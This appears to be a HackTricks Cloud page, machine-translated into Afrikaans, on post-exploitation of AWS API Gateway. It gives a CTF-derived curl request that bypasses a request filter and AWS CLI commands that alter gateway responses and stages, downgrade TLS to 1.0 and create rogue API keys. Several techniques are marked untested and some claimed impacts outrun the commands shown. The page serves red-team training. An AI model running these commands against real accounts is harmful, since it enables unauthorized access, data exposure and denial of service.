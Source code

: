 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Vir meer inligting, kyk:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Toegang tot nie-blootgestelde API's

Jy kan 'n eindpunt skep in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) met die diens `com.amazonaws.us-east-1.execute-api`, die eindpunt blootstel in 'n netwerk waar jy toegang het (potensieel via 'n EC2 masjien) en 'n sekuriteitsgroep toewys wat alle verbindings toelaat.\
Dan, vanaf die EC2 masjien sal jy in staat wees om toegang tot die eindpunt te verkry en dus die gateway API aan te roep wat voorheen nie blootgestel was nie.

### Omseil Versoek liggaam deurlaat

Hierdie tegniek is gevind in [**hierdie CTF skrywe**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Soos aangedui in die [**AWS dokumentasie**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) in die `PassthroughBehavior` afdeling, is die waarde **`WHEN_NO_MATCH`** , wanneer die **Content-Type** kop van die versoek nagegaan word, sal die versoek na die agterkant deurgegee word sonder enige transformasie.

Daarom, in die CTF het die API Gateway 'n integrasiesjabloon gehad wat **die vlag verhinder het om uit te lek** in 'n antwoord wanneer 'n versoek met `Content-Type: application/json` gestuur is:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

 egter, om 'n versoek te stuur met **`Content-type: text/json`** sou daardie filter voorkom.

Laastens, aangesien die API Gateway slegs `Get` en `Options` toegelaat het, was dit moontlik om 'n arbitrêre dynamoDB navraag te stuur sonder enige beperking deur 'n POST versoek met die navraag in die liggaam te stuur en die koptekst `X-HTTP-Method-Override: GET` te gebruik:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Gebruik Planne DoS

In die **Enumerasie** afdeling kan jy sien hoe om die **gebruik plan** van die sleutels te **verkry**. As jy die sleutel het en dit is **beperk** tot X gebruike **per maand**, kan jy dit **net gebruik en 'n DoS veroorsaak**.

Die **API Sleutel** moet net **ingesluit** wees in 'n **HTTP kop** genaamd **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

'n Aanvaller met die regte `apigateway:UpdateGatewayResponse` en `apigateway:CreateDeployment` kan **'n bestaande Gateway Response wysig om pasgemaakte koppe of respons sjablone in te sluit wat sensitiewe inligting lek of kwaadwillige skripte uitvoer**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Lek van sensitiewe inligting, uitvoering van kwaadwillige skripte, of ongemagtigde toegang tot API-hulpbronne.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

'n Aanvaller met die regte `apigateway:UpdateStage` en `apigateway:CreateDeployment` kan **'n bestaande API Gateway-fase wysig om verkeer na 'n ander fase te herlei of die kasinstellings te verander om ongemagtigde toegang tot gekapte data te verkry**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Onbevoegde toegang tot gekapte data, onderbreking of onderskepping van API-verkeer.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:PutMethodResponse` en `apigateway:CreateDeployment` kan **die metode-antwoorde van 'n bestaande API Gateway REST API-metode wysig om pasgemaakte koptekste of antwoordtemplates in te sluit wat sensitiewe inligting lek of kwaadwillige skripte uitvoer**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potensiële Impak**: Lek van sensitiewe inligting, uitvoering van kwaadwillige skripte, of ongemagtigde toegang tot API-hulpbronne.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

'n Aanvaller met die regte `apigateway:UpdateRestApi` en `apigateway:CreateDeployment` kan **die API Gateway REST API-instellings wysig om logging te deaktiveer of die minimum TLS-weergawe te verander, wat moontlik die sekuriteit van die API verzwak**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potensiële Impak**: Verswakking van die sekuriteit van die API, wat moontlik ongeoorloofde toegang toelaat of sensitiewe inligting blootstel.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

'n Aanvaller met toestemmings `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, en `apigateway:CreateUsagePlanKey` kan **nuwe API-sleutels skep, dit met gebruiksplanne assosieer, en dan hierdie sleutels gebruik vir ongeoorloofde toegang tot API's**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potensiële Impak**: Onbevoegde toegang tot API hulpbronne, omseiling van sekuriteitsbeheer.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

